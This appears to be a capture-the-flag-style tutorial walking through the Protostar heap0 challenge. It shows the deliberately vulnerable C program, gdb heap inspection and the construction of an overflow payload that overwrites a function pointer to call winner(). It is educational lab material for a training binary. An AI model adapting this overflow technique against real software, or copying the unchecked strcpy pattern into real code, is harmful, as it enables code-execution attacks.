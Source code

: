 ## Simple Heap Overflow
> heap overflow, heap analysis, etc ...  
:syringe: Learned and noted for everyone :syringe:


**:pill: heap0.c from protostar :pill:**

```clike
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {  
  char name[64];
};

struct fp {  
  int (*fp)();
};

void winner()  
{
  printf("level passed\n");
}

void nowinner()  
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)  
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);

  f->fp();

}
```
:scroll: :scroll: :scroll: Definitions of code :scroll: :scroll: :scroll:

 - `d = malloc(sizeof(struct data));` -> allocated dynamic memory
 - `f = malloc(sizeof(struct fp));` -> allocated dynamic memory
 - `f->fp = nowinner;` -> function pointer is pointed to nowinner function
 - `strcpy(d->name, argv[1]);` -> user input allocated in first chunk
 - `f->fp();` -> call the function that address stored in `f->fp`
 - in this challenge, we need to call winner function

:hammer: :hammer: :hammer: Testing the program :hammer: :hammer: :hammer:

```
$ ./heap0 AAAA BBBB
data is at 0x804a008, fp is at 0x804a050
level has not been passed
```
:mag: :mag: :mag: Debugging Heap :mag_right: :mag_right: :mag_right:

 - `gdb -q ./heap0` -> load the program with gdb
 - `set disassembly-flavor intel` - > setting disassembly result to intel
 - `disas main` -> disassembling main function to set a break point
 - `break *main+76` -> set a breakpoint at printf function call
 - `run AAAA` -> run program to hit our breakpoint

viewing memory map 

```
(gdb) info proc map
process 1513
cmdline = '/opt/protostar/bin/heap0'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap0'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/heap0
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/heap0
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fe0000 0xb7fe2000     0x2000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
``` 

 - `0x804a000  0x806b000    0x21000          0           [heap]` -> now we know the heap address
 - `x/32x 0x804a000` -> examining heap 

defining hook for better debugging

```
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/32x 0x804a000
>x/2i $eip
>end
```
 run again

```
(gdb) run AAAA
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 AAAA
0x804a000:      0x00000000      0x00000049      0x00000000      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
0x80484d8 <main+76>:    call   0x8048378 <printf@plt>
0x80484dd <main+81>:    mov    eax,DWORD PTR [ebp+0xc]

Breakpoint 1, 0x080484d8 in main (argc=2, argv=0xbffffd64) at heap0/heap0.c:34
34      in heap0/heap0.c
```
 - user input is not stored into heap chunk 
 - run after strcpy function called

:grey_question: results :grey_question:

```
0x804a000:      0x00000000      0x00000049      0x41414141      0x00000000
0x804a010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a020:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000011
0x804a050:      0x08048478      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```
 - by understanding heap chunk
	 - `0x49` -> chunk size , 73 bytes in decimal
	 - we should inject payload more than 73 bytes 
	 - `run $(python -c 'print "A"*80')`

:grey_question: results :grey_question:
```
0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x41414141      0x41414141      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```
continue
 - `0x41414141 in ?? ()` -> overflowed f->fp 

controlling f->fp

 - `0x49 -> 73` -> but we need to consider f's chunk size
 - `73 - 1 = 72` -> `run $(python -c 'print "A"*72+"BBBB"')`

:grey_question: results :grey_question:
```
0x804a000:      0x00000000      0x00000049      0x41414141      0x41414141
0x804a010:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a020:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a030:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a040:      0x41414141      0x41414141      0x41414141      0x41414141
0x804a050:      0x42424242      0x00000000      0x00000000      0x00020fa9
0x804a060:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a070:      0x00000000      0x00000000      0x00000000      0x00000000
```

 - yeah , we controlled 
 - `disas winner` -> looking the address of winner function
 - `0x08048464` -> `\x64\x84\x04\x08` in little endian
 - `run $(python -c 'print "A"*72+"\x64\x84\x04\x08"')` -> final payload

:grey_question: results :grey_question:

```
$ ./heap0 $(python -c 'print "A"*72+"\x64\x84\x04\x08"')
data is at 0x804a008, fp is at 0x804a050
level passed
```

Have fun! :v: :v: :v:

---
**:muscle: References :muscle:**  

all resources listed here :point_right: [LOL-Fav](http://location-href.com/lol-fav/)  :page_facing_up:

:snowman: Contributed and maintained by [Luna-](https://twitter.com/art0flunam00n)  
:snowflake: Powered by [Legion of LOL](http://location-href.com)

---

